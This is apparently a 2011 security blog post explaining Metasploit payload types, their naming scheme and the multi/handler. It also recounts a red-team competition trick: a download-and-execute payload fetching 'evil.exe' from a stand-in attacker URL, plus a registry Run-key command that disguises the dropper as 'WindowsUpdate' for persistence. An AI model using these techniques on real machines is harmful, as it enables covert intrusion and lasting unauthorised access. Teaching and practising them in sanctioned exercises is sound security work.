 ---
author: mubix
comments: true
date: 2011-06-26 15:00:00+00:00
layout: post
title: Metasploit Payloads Explained - Part 1
categories:
- metasploit
- payloads
---

Payload selection is something that rarely gets talked about in detail. Most PoCs just use calc.exe, netcat, or some kind of socket. The vast majority of Metasploit tutorials, videos and documentation use the _**windows/meterpreter/reverse_tcp**_ payload which is only one of 224 possible payloads. Here is a little disclaimer: While the payloads in Metasploit don't get updated as much as other parts of Metasploit, this is a point in time documentation of them (June 23, 2011) and the payloads available in Metasploit are constantly changing. I challenge you to continue to do a 'show payloads' and see what's new.

If you issue 'show payloads' at the base of Metasploit's console (msf>), it will show you every payload that Metasploit has available. However, exploit module writers can help the user out a bit with their selection by putting special limiters inside of their module. These limiters can be as specific as pointing out a specific payload, or as broad as specifying that it will only work with a 'windows' payload. For a decent example of this in action check out the JBoss 'bshdeployer' exploit module (**modules/exploits/multi/http/jboss_bshdeployer.rb**).

The payloads Metasploit has are broken down into '**staged**', '**stagers**', and '**singles **(also known as Inline)'. The difference between '**staged**' and '**stagers**' is pretty simple, '**staged**' payloads use tiny '**stagers**' to be able to fit into small exploitation spaces. During exploitation the exploit developer often has a very limited amount of memory they can manipulate through the programs inputs that they are exploiting. The stagers go in this space and their only job is to pull down the rest of the '**staged**' payload. The downside to these types of payloads is they require a connection to something that will shovel them the rest of the payload. Inline payloads or '**singles**' don't have this problem. They are self contained and do what they are designed to do without any assistance.

All of the payloads in Metasploit use the one, the only, Multi Handler. I call it that because of how I call it:

```
msf> use multi/handler
```

It is a fitting title though as it is equipped to handle every single payload inside of Metasploit no matter what the architecture or type of connection being made. It knows how to deal with each type of payload because you tell it what to expect, but that doesn't take away from the fact that in this single utility lies the crucial stepping stone for all of Metasploit's exploitation.

The structure of most payloads tell you exactly what they do, but not always. If it says in the description that it's '**Inline**' that means it is a single, if it says '**Stager**' that means it's staged. Lets break a few down of the lesser known ones:

* `cmd/windows/adduser` - This is a single that executes 'net user /add' with the username and password you specify. This one doesn't say that it's 'Inline' but all of the 'cmd/*' or '*/exec' payloads are singles.  
* `osx/armle/vibrate` - A single that when executed on an iPhone, it vibrates.
* `generic/debug_trap` - Trips a debugger if it's attached to the process (sends a single xCC 'break' byte)

One thing that isn't immediately obvious is another marker of staged vs. singles:

```
osx/ppc/shell/reverse_tcp
osx/ppc/shell_reverse_tcp
```

The difference between these two payloads isn't obvious other than the fact that one has an underscore '_' instead of a forward slash '/'. The one with the underscore means it's a single while the other is staged. But the architecture of the naming convention is a bit complicated. Most stick to OS/ARCHITECTURE/TYPE/PAYLOAD where a slash instead of an underscore between TYPE and PAYLOAD would signify the difference we just talked about. But not all payloads stick to this format. You can even go crazy and actually look in the directory: msfdirectory/modules/payloads/ - everything in the singles directory.. hmmm yup, is a single.

Singles are great for fire and forget, I've used as payloads for USB sticks (so the machine didn't have to have a connection to do what I needed) all the way to a pretty sneaky persistence method. One that I used quite often at CCDC was with the payload: '**windows/download_exec**'. The only option this single has is 'URL'. We would put something like http://www.redteam.com/evil.exe and generate the binary:

![](/images/postimages/201106_payloads_1.png)  

(Yes you can use msfpayload, or msfvenom on the command line to generate payloads, but I like to stay inside of msfconsole)  
  
Then set that to auto start when someone logs in with something like:

```
meterpreter > reg setval -k "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -v "WindowsUpdate" -d "C:\Windows\dropper.exe"
```

Now all we had to do is wait for logins. If they happened to find our evil.exe binary (which download_exec makes it 'a.exe' and puts it in System32), and blocked our IP, all we had to do in replace evil.exe on our web server and wait for it to download the new one. A crude form of persistence, but it worked well.

I'm going to end this with a list of all the payloads... hopefully for all you tab completion lazy bums this might be the first time you've actually have taken a second to look around. In the next post I'll be going into Meterpreter, the BEST payload in my humble-totally-unbiased opinion ;), with a bit of pivoting thrown in for good measure.

![](/images/postimages/201106_payloads_2.png)  